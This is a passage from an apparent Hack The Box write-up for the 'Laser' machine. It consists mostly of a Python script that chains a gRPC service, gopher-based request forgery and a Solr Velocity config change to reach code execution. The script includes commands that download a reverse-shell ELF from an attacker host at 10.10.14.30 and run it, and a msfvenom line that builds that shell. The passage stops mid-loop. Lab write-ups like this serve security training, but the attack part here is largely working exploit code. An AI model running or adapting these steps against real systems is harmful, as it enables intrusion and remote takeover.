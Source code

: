 ```json
{
"feed_url" : "http://localhost:8983"
}
```

And passed the output here and it worked. 

```bash
┌──(root🐺kali)-[~/htb/boxes/laser]
└─# grpcurl -plaintext -proto grpc_printer/service.proto -d '{"data": "Uyd7ImZlZWRfdXJsIjogImh0dHA6Ly9sb2NhbGhvc3Q6ODk4MyJ9JwpwMAou"}' 10.10.10.201:9000 Print.Feed                    
{
  "feed": "Pushing feeds"
}
```

## Getting User Shell

Now its time to get shell, we already know how to send GET and POST request using gopher. First we need to send a POST request to change the `Resource Loader Enabled` and we can get RCE.

```python
import pickle 
import base64
import os
import urllib

CORE = "staging"
#HOST = "10.10.14.30" # me
HOST = "localhost:8983"  # target
gopher = "gopher://"+HOST+"/"

print("[+] LASER RCE Automation Script")
print("[+] Script Started")
url =   "0POST /solr/"+CORE+"/config HTTP/1.1\r\n" \
        "Host: http://"+HOST+"\r\n" \
        "User-Agent: FeedBot v1.0\r\n" \
        "Content-Type: application/json;charset=utf-8\r\n" \
        "Connection: Close\r\n" \
        "Accept: */*\r\n" \
        "Content-Length: 206\r\n" \
        "\r\n" \
        "{\"update-queryresponsewriter\":{\"startup\":\"lazy\",\"name\":\"velocity\",\"class\":\"solr.VelocityResponseWriter\",\"template.base.dir\":\"\",\"solr.resource.loader.enabled\":\"true\",\"params.resource.loader.enabled\":\"true\"}}"
            
            
data = '{"feed_url": "'+gopher+urllib.quote(url)+'"}'
#print(data)
pickled = pickle.dumps(data)
print("[+] Sending POST to update config...")	
payload = base64.b64encode(pickled)
cmd = 'grpcurl -plaintext -allow-unknown-fields -import-path /root/htb/boxes/laser/grpc_printer/ -proto /root/htb/boxes/laser/grpc_printer/service.proto -d \'{"data":"'+payload.decode('utf-8')+'}"}\' 10.10.10.201:9000 Print.Feed 1>/dev/null'
os.system(cmd)
print("[+] Resource Loader Enabled")

#msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.30 LPORT=1234 -f elf > shell.elf
wget = "exec('wget -O /tmp/shell.elf http://10.10.14.30/shell.elf')"
chmod = "exec('chmod +x /tmp/shell.elf')"
execute = "exec('/tmp/shell.elf')"
commands = [wget, chmod, execute]
for c in commands:
    command = urllib.quote(c)
```